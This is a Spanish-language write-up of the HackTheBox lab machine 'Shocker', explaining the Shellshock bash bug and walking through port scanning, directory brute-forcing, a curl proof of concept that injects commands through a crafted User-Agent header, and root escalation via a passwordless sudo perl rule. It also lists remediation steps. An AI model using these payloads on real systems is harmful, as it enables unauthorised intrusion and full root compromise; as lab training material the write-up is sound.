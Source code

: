 ```yaml
---
layout: single
title:  Shocker
excerpt: "Maquina Shocker de la Plataforma HackTheBox, posee una dificultad facil con una vulnerabilidad bastante conocida que la época en que fue descubierto afectó a millones de servidores. públicos"
date: 2021-07-20
classes: wide
header:
    teaser: /assets/images/que-es-un-socket-y-como-funciona/portada.png
    teaser_home_page: true
categories:
    - WriteUp
tags:
    - Linux
    - HTB
---
```



# Sistema Vulnerable: 10.10.10.56
## Explicacaión de la vulnerabilidad.
Shellshock apareció por primera vez en septiembre de 2014. Hubo informes de ataques a las pocas horas de la divulgación inicial de la vulnerabilidad, y en los días siguientes, hubo millones de ataques y sondeos provenientes de botnets.  
Bash es un shell o intérprete que permite que los comandos se ejecuten en un sistema, generalmente a través de una ventana de texto. Por lo general, es el shell predeterminado en los sistemas Unix, y como tal, se puede encontrar en Linux, macOS y otros varios sabores de Unix. Esta es la razón por la que Shellshock es tan grave: más de la mitad de los servidores web en Internet ejecutan Unix, sin mencionar una gran cantidad de dispositivos IoT e incluso algunos enrutadores/módems.  


Esencialmente, Shellshock funciona al permitir que un atacante agregue comandos a las definiciones de funciones en los valores de las variables de entorno. Esto se clasificaría como un tipo de ataque de inyección de código, y dado que Bash procesará estos comandos después de la definición de la función, se puede ejecutar casi cualquier código arbitrario.  
Shellshock es en realidad una familia completa de vulnerabilidades que consiste en múltiples vectores de explotación.  

[- https://securityhacklabs.net/articulo/seguridad-web-explotando-shellshock-en-un-servidor-web-usando-metasploit](https://securityhacklabs.net/articulo/seguridad-web-explotando-shellshock-en-un-servidor-web-usando-metasploit)  
[- https://en.wikipedia.org/wiki/Shellshock_(software_bug)](https://en.wikipedia.org/wiki/Shellshock_(software_bug))  


## Vulnerabilidad de escalamiento de privilegios:  
sudo es un programa que permite a los usuarios ejecutar otros programas con privilegios de otros usuarios. De forma predeterminada, ese otro usuario será root.
Un usuario generalmente necesita ingresar su contraseña para usar sudo, y se debe permitir el acceso a través de reglas en el archivo **/etc/sudoers**.   
[https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/](https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/)  

------

## Corrección de la vulnerabilidad:
- Actualize bash a su versión mas reciente de su sistema.  
- Configurar de manera eficaz los permisos que se otorgan a los usuarios del sistema.  

## Gravedad :
Crítica

## Prueba de concepto:
[- https://www.exploit-db.com/exploits/34766](https://www.exploit-db.com/exploits/34766)  
```bash
$ curl -H "user-agent: () { :; }; echo;echo; /bin/bash -c 'id'" http://10.10.10.56/cgi-bin/user.sh
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

### Enumeración:
Enumeración de puertos TCP
```bash
$ nmap -p- --min-rate 10000 10.10.10.56
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-16 06:29 EDT
Nmap scan report for 10.10.10.56
Host is up (0.025s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

$ nmap -p 80,2222 -sCV -oN targeted 10.10.10.56
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-16 06:30 EDT
Nmap scan report for 10.10.10.56
Host is up (0.018s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.35 seconds

```

## Pasos para explotar el sistema:
### Punto de apoyo:
<p align="center">
<img src="/assets/images/htb/shocker/1.PNG">
</p>

Fuerza bruta al servidor web.  
```bash
$ ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.56/FUZZ -c -t 200
                                                                                                                          
        /'___\  /'___\           /'___\                                                                                   
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                   
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                  
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                      
         \ \_\   \ \_\  \ \____/  \ \_\                                                       
          \/_/    \/_/   \/___/    \/_/                                                                                   

       v1.3.0 Kali Exclusive <3
________________________________________________                              
                                                                                              
 :: Method           : GET                                                                    
 :: URL              : http://10.10.10.56/FUZZ                                                                            
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt                           
 :: Follow redirects : false                                                                  
 :: Calibration      : false                                                                  
 :: Timeout          : 10                                                                                                 
 :: Threads          : 200                                                                    
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405                 
________________________________________________                                    
                                                                                              
                        [Status: 200, Size: 137, Words: 9, Lines: 10]                   
.hta                    [Status: 403, Size: 290, Words: 22, Lines: 12]
.htaccess               [Status: 403, Size: 295, Words: 22, Lines: 12]                                                    
.htpasswd               [Status: 403, Size: 295, Words: 22, Lines: 12]                        
cgi-bin/                [Status: 403, Size: 294, Words: 22, Lines: 12]                        
index.html              [Status: 200, Size: 137, Words: 9, Lines: 10]                                                     
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]                                                    
:: Progress: [4615/4615] :: Job [1/1] :: 597 req/sec :: Duration: [0:00:04] :: Errors: 0 ::   

```

<p align="center">
<img src="/assets/images/htb/shocker/2.PNG">
</p>

Fuerza bruta al sistema web enumerando archivos con extension sh, py,pl,cgi.
```bash
$ gobuster dir -q -e -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x sh,py,pl,cgi -t 200 
http://10.10.10.56/cgi-bin/.htpasswd (Status: 403)
http://10.10.10.56/cgi-bin/.htpasswd.sh (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess.sh (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess.py (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess.pl (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess.cgi (Status: 403)
http://10.10.10.56/cgi-bin/.htpasswd.py (Status: 403)
http://10.10.10.56/cgi-bin/.htpasswd.pl (Status: 403)
http://10.10.10.56/cgi-bin/.htpasswd.cgi (Status: 403)
http://10.10.10.56/cgi-bin/.hta (Status: 403)
http://10.10.10.56/cgi-bin/.hta.sh (Status: 403)
http://10.10.10.56/cgi-bin/.hta.py (Status: 403)
http://10.10.10.56/cgi-bin/.hta.pl (Status: 403)
http://10.10.10.56/cgi-bin/.hta.cgi (Status: 403)
http://10.10.10.56/cgi-bin/user.sh (Status: 200)
```

Visualizando el recurso encontrado.  
```bash
$ curl http://10.10.10.56/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 18:20:37 up 22 min,  0 users,  load average: 0.00, 0.00, 0.00
 ```

### Obteniendo shell inversa:
<p align="center">
<img src="/assets/images/htb/shocker/3.PNG">
</p>


### Escalada de privilegios:
```bash
$ python3 -c "import pty;pty.spawn('/bin/bash')"
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'exec "/bin/sh";'
# id
id
uid=0(root) gid=0(root) groups=0(root)

```
